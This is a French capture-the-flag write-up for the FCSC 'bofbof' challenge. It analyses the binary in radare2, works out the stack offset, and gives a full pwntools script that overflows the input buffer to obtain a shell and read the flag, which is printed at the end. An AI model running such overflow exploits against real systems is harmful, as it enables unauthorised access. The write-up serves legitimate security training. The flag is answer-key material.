 # BOFBOF

catégorie | points
:-----: | :----:
Intro | 20

## 0x0 Intro

>Votre but est d'obtenir un shell sur la machine pour lire le fichier flag.txt.
>
>nc challenges2.france-cybersecurity-challenge.fr 4002
>
>SHA256(bofbof) = bd78bff2d72fcc6ebc82f248ea14761d66fc476aca13eed22db541f2960f9fce

## 0x0 Explication

Un binaire, un shell à obtenir, vous savez ce que cela veut dire ??? REVERSING TIME !

## 0x1 Reconnaissance

Avant tout, soit on file sur le serveur pour voir comment réagit via la commande donnée dans l'énoncé.
Soit on le rend éxécutable sur notre machine et on le test en local:

```bash
chomd +x bofbof && ./bofbof
```

Celui ci va nous gratifier d'un magnifique :

```bash
Comment est votre blanquette ?
>>> 
```

Si vous êtes sur le serveur, si vous essayez une chaine au hasard, la connexion se ferme instantanément.

Premier réflexe, essayer un buffer overflow, si vous êtes en local, vous aurez ce magnifique message:

```bash
Comment est votre blanquette ?
>>> Almost there!
[1]    27372 segmentation fault (core dumped)  ./bofbof  < /usr/bin/echo
```

Ok, segmentation fault, on peux être sur un buffer overflow avec execution de code comme sur [poney du FCSC 2020](https://blog.caturday-lovers.fr.nf/?p=144) que nous avions résolu.

Pour en être certain, nous allons l'examiner.

## 0x2 Radare time

Même si cela semble compliqué à utiliser, sur ce genre d'exercice, cela reste toujours plus lisible.

On commence par charger l'éxécutable dans Radare2:

![r2 load](./IMG/radare1.png)

Une fois chargé, on l'analyse (cela aurait pu être fait avec l'option -AA au lancement)

![r2 analyse](./IMG/radare2.png)

Une fois analysé, nous alons pouvoir regarder plus en profondeur le code:

![r2 pdf main](./IMG/radare3.png)

Je vous ai mis en avant les points important:

point | explication
:----:| :----:
1 | vérifie si la chaine dans RAX est égale à 0x4141414141414141 (soit AAAAAAAA)
2 | vérifie si la chaine dans RAX est égale à 0x1122334455667788
3 | si RAX n'est pas égale à la chaine présenté en 2 alors on jump
4 | on exécute la partie sym.vuln, interessant, nous l'étudierons
5 | notre message d'erreur, et comme nous pouvons le constater, si nous sommes égale à AAAAAAAA on ne l'aura pas.

Et quand nous examinons sym.vuln, nous trouvons le code suivant:

![r2 pdf sym.vuln](./IMG/radare4.png)

MAZELTOV, c'est par ici que nous accèderons au shell.

## 0x3 Exploitation

Donc, nous avons compris que nous allons avoir une chaine a entrer dans bofbof,
qui à un certain moment, devra être égale à la valeur de 0x1122334455667788.

Pour ce faire, nous devons connaitre une chose importante, la taille du buffer.

Il est indiqué au début du main, sous la forme:

>132: int main (int argc, char **argv, char **envp);
>
>│           ; var char *s @ rbp-0x30
>
>│           ; var uint32_t var_8h @ rbp-0x8

Que cela nous indique t'il ? deux choses:

 La taille max de la chaine est 0x30 et le buffer en 64 bits est de 0x8.
 Notre chaine devra donc se situer à -10 caractères (les 8 de la valeur désirée -2 pour le linebreak, le \n)

 Il est temps de lancer VIM, et de commencer à coder en python.

## 0X4 Coding

Pour faciliter les choses, et ne pas se prendre la tête sur le big endian et le petit endian,
nous allons utiliser la librairie pwntools

```python
#!/usr/bin/env python
# coding: utf-8

import pwn
import argparse

# pwn.context.log_level = "debug"
shell = "challenges2.france-cybersecurity-challenge.fr"
port = 4002
winArg = 0x1122334455667788
charge = pwn.cyclic(0x20 + 8)
payload = charge + pwn.p64(winArg)
binary = "./bofbof"


def startExploit(isOnline):
    try:
        if isOnline:
            Online()
        else:
            Local()
    except:
        pwn.error("C'était un accident ! UN BANAL ACCIDENT DE TRAPÈZE")
    finally:
        pwn.info("Ah ! C'était donc ça tout ce tintouin.")


def Local():
    pwn.context.binary = binary
    pwn.info("Mais qu'est-ce que c'est que ce guet-apens ?!")
    stdout = pwn.process.PTY
    stdin = pwn.process.PTY
    target = pwn.process([binary], stdout=stdout, stdin=stdin)
    target.sendlineafter(">>>", payload)
    target.interactive()


def Online():
    pwn.info("C'est pas moi ! j'ai vu, je sais qui c'est, mais je ne dirais rien !")
    conn = pwn.remote(shell, port)
    conn.recvline()
    conn.sendlineafter(">>>", payload)
    conn.interactive()


def main():
    parser = argparse.ArgumentParser(
        description="Excuter Hubert en ligne ou local", prog="Exploit.py"
    )
    parser.add_argument(
        "-o",
        "--online",
        dest="isOnline",
        help="Hubert en mode online",
        action="store_true",
        default=False,
    )
    args = parser.parse_args()
    if args.isOnline:
        Online()
    else:
        Local()


if __name__ == "__main__":
    main()
```

On test sur notre cible en locale, et nous accèdons à un shell. On a gagné !
On passe l'exploit en mode online en ajoutant -o au lancement:

![we have a shell and the flag !](./IMG/hubert.png)

le flag était donc:

>FCSC{ec30a448a777b571734d8d9e4036b3a6e87d1005446f80dffb26c3e4f5cd02ba}

## 0X5 TL;DR

Le flag était accessible en entrant une chaine forgée afin que la représentation
de la fin de la chaine en héxadécimale soit égale à 0x1122334455667788

Pour faire cela, le script [exploit.py](./Exploit.py) avec l'aide de pwntools va intéragir avec
le chall afin de nous laisser accéder au shell proposé sur la machine.


